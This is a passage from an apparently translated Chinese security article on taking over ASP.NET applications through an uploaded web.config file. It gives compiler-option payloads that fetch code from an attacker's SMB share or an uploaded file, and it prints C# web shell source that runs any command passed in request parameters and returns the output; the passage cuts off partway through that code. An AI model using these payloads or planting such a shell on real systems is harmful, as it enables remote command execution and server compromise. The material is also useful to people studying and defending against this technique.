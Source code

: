 除了可以在创建`Web shell`之后更改`web.config`文件以删除`compilerOptions`属性以允许正常的编译过程之外，还应该在我们的`web.config`文件上传之外创建`Web shell`。

应该注意的是，`webshell.txt`中的代码将嵌入到包含二进制数据的`webshell.aspx`的中间。 由于这不是`webshell`的副本，因此可以用作获取访问权限的第一阶段。

**无法访问SMB的解决方案**

如果目标无法通过`SMB`进行通信，则可以使用允许的扩展名上载`Web shell`，以将其包含在`/resource`选项中：

```plain
/resource:"C:\appdata\wwwroot\myapp\attachment\myshell.config" /out:"C:\appdata\wwwroot\myapp\webshell.aspx" #
```

##### 2.1.2 接管现有的ASPX文件

当`ASPX`文件存在于所上传`web.config`文件的同一文件夹中时，可以修改编译过程进行接管操作。

了解应用程序和虚拟目录对于使用此技术非常重要。 我将使用以下示例解释这一点：

`web.config`文件可以在`C:\appdata\wwwroot\myapp\attachment\`上传，`file.aspx`也存在于同一路径中，可通过以下URL访问：

```plain
https://victim.com/myapp/attachment/file.aspx
```

现在可以使用以下编译器选项来接管此文件：

```plain
\\KaliBoxIP\Public\webshellcs.txt #
```

或者：

```plain
"C:\appdata\wwwroot\myapp\attachment\webshellcs.txt" #
```

`webshellcs.txt`文件的内容是：

```plain
namespace ASP
{
    using System;
    [System.Runtime.CompilerServices.CompilerGlobalScopeAttribute()]
    public class attachment_file_aspx : global::System.Web.UI.Page, System.Web.IHttpHandler
    {
        private void @__Render__control1(System.Web.UI.HtmlTextWriter @__w, System.Web.UI.Control parameterContainer)
        {
            if (!String.IsNullOrEmpty(Request["cmd"]))
            {
                System.Diagnostics.Process process = new System.Diagnostics.Process();
                process.StartInfo.FileName = Request["cmd"];
                process.StartInfo.Arguments = Request["arg"];
                process.StartInfo.UseShellExecute = false;
                process.StartInfo.RedirectStandardOutput = true;
                process.StartInfo.RedirectStandardError = true;
                process.Start();
                //* Read the output (or the error)
                string output = process.StandardOutput.ReadToEnd();
                @__w.Write("Result:<br><pre>");
                @__w.Write(output);
            }
            else
            {
                @__w.Write("Use:\"?cmd=cmd.exe&arg=/c dir\" as an example!");
            }
        }

        [System.Diagnostics.DebuggerNonUserCodeAttribute()]
        protected override void FrameworkInitialize()
```